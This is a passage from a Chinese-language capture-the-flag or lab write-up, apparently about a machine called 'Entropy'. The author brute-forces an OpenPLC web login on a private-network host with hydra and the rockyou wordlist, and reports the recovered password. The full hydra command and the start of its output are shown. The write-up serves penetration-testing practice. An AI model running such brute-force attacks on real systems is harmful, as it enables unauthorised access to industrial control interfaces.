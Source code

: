 ![](./images/image-240.png)

经过搜索，得到默认账户是**openplc**，但是密码已经被修改过了

![](./images/image-241.png)

这里使用**hydra**进行爆破，得到密码是**bubbles**

```
[root@kali] /home/kali/Entropy  
❯ hydra -l openplc -P /usr/share/wordlists/rockyou.txt -s 9090 192.168.56.117 http-post-form "/login:username=^USER^&password=^PASS^:F=Bad credentials! Try again" -I

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-12 22:09:55
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
```